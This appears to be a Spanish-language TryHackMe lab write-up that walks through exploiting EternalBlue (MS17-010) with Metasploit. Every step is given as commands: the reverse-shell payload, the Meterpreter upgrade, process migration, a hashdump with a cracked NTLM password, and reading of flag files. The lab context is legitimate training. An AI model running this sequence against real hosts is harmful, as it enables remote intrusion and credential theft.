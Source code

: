 
# 🛠️ Práctica de Explotación: EternalBlue (MS17-010) con Metasploit

Este documento recoge paso a paso cómo exploté la vulnerabilidad **MS17-010** (CVE-2017-0144, EternalBlue) usando **Metasploit Framework**, como parte de la ruta *Cybersecurity 101* de **TryHackMe**.

> 🧪 Esta práctica se realizó en un entorno seguro y controlado, exclusivamente con fines educativos.

---

## 🔍 Objetivo

- Explorar la vulnerabilidad EternalBlue mediante el módulo de Metasploit.
- Acceder a una shell y convertirla en sesión **Meterpreter**.
- Extraer hashes y leer archivos tipo "flag" en la máquina comprometida.

---

## ⚙️ Pasos realizados

### 1️⃣ Acceso a Metasploit

```bash
root@ip-10-10-83-188:~# msfconsole
msf6 >
```

### 2️⃣  Búsqueda del exploit

```bash
msf6 > search ms17
msf6 > search eternal
```
Resultado:
```yaml
0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

### 3️⃣ Selección del exploit y configuración
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.40.187
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

###4️⃣ Conversión de shell a Meterpreter

```bash
c:\windows\system32 > background
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(...) > show options
msf6 post(...) > show sessions
msf6 post(...) > set session 1
msf6 post(...) > run
msf6 post(...) > sessions
msf6 post(...) > sessions -i 2
```

###5️⃣ Interacción con Meterpreter
```bash
meterpreter > getuid
meterpreter > ps
meterpreter > migrate 1312   # proceso spoolsv.exe
```


### 6️⃣ Extracción de hashes

```bash
meterpreter > hashdump
```
Resultado
```bash
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
🔓 Crackeo del hash en crackstation.net
NTLM Hash: ffb43f0de35be4d9917ac0cc8ad57f8d
Contraseña: alqfna22


### 7️⃣ Lectura de archivos importantes (flags)

📁 Flag 1
```bash
meterpreter > pwd
c:\windows\system32
meterpreter > cat flag1.txt
```
Resultado
```bash
flag{access_the_machine}
```




📁 Flag 2
```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd windows\system32\config
meterpreter > cat flag2.txt
```
Resultado
```bash
flag{sam_database_elevated_access}
```


📁 Flag 3
```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Users
meterpreter > cd Jon
meterpreter > cd Documents
meterpreter > cat flag3.txt
```
Resultado
```bash
flag{admin_documents_can_be_valuable}
```






